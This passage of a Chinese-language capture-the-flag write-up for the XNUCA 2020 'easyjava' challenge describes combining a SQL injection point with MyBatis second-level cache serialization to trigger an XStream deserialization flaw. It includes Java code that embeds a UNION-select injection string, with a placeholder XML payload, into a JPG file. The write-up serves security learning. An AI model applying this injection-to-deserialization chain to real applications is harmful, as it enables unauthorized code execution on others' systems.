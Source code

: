 ![image-20201102154259827](/images/xnuca-2020-easyjava/image-20201102154259827.png)

到这里就比较清晰了，我们需要利用前面发现的SQL注入点，进行注入构造任意的xml数据

并利用mybatis的默认二级缓存使用serialization的原理（如下图官方文档所示），来触发xstream反序列化漏洞

![image-20201102155335403](/images/xnuca-2020-easyjava/image-20201102155335403.png)

接下来，就根据题目的签名实现，来注入任意数据，以如下代码为例，生成存在注入语句的jpg文件

```
try{
    String payload = "evil xml";
    File file = new File("xxxx.jpg");
    File dest = new File("xxxx.jpg");
    InputStream inputStream = new FileInputStream(file);
    byte[] bytes = new byte[(int)file.length()];
    inputStream.read(bytes);
    InputStream destInputStream = new FileInputStream(dest);
    String secret="' union select 13,'wh1t3p1g','wh1t3p1g','"+payload+"','aed2bebb781ae32d94c5e67185e35149";
    String hash = "aed2bebb781ae32d94c5e67185e35149";
    ImageUtil.transferTo(inputStream, bytes, null, dest, secret, hash);
}catch (Exception e){
    e.printStackTrace();
}
```
